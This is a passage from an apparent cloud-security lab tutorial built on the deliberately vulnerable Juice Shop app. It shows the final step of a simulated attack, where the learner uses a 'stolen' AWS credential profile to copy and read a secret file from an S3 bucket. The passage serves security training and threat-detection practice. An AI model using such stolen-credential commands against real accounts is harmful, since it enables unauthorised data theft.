   <p style="margin-top: 16px; font-weight: bold; color: #d9534f;">🚨 Note: Make sure your AWS CloudShell terminal session stays open for the rest of this step, as we will reuse these credentials later!</p>
</div>


## View the Stolen Document

<div style="border: 1px solid #ddd; padding: 16px; border-radius: 8px; background: #f9f9f9; margin-top: 20px;">
  <h4>🕵️ Final Move: Reveal Secret Information</h4>

  <p><strong>Copy the Secret File</strong><br>
  Using the stolen credentials, copy the <code>secret-information.txt</code> file from the S3 bucket using the following command:</p>

  <div style="position: relative; margin-top: 1em;">
    <button onclick="navigator.clipboard.writeText(document.getElementById('code-block-copy').innerText)" style="position: absolute; top: 8px; right: 8px; padding: 4px 10px; background-color: #f4a261; border: none; border-radius: 4px; cursor: pointer;">📋 Copy</button>
    <pre style="overflow-x: auto; background: #2d2d2d; color: #f8f8f2; padding: 1em; border-radius: 5px; margin-top: 0;">
<code id="code-block-copy">aws s3 cp s3://$JUICESHOPS3BUCKET/secret-information.txt . --profile stolen</code></pre>
  </div>

  <p><strong>View the Secret File</strong><br>
  Display the contents of the file using:</p>

  <div style="position: relative; margin-top: 1em;">
    <button onclick="navigator.clipboard.writeText(document.getElementById('code-block-cat').innerText)" style="position: absolute; top: 8px; right: 8px; padding: 4px 10px; background-color: #f4a261; border: none; border-radius: 4px; cursor: pointer;">📋 Copy</button>
    <pre style="overflow-x: auto; background: #2d2d2d; color: #f8f8f2; padding: 1em; border-radius: 5px; margin-top: 0;">
<code id="code-block-cat">cat secret-information.txt</code></pre>
  </div>

  <p>📄 You should see a line that reads:<br>
  <em>"Dang it - if you can see this text, you're accessing our private information!"</em></p>

  <img src="Threat Detection with GuardDuty/final move.png" alt="View Secret Information" style="max-width: 100%; border-radius: 4px; margin-top: 16px;" />
</div>


<div style="border: 2px solid #ef476f; padding: 20px; border-radius: 8px; background: #fff0f3; margin-top: 20px;">
  <h3>🎬 Mission Recap: The Hacker’s Journey</h3>

  <p>Here's what you pulled off in this full-scale cloud security simulation:</p>
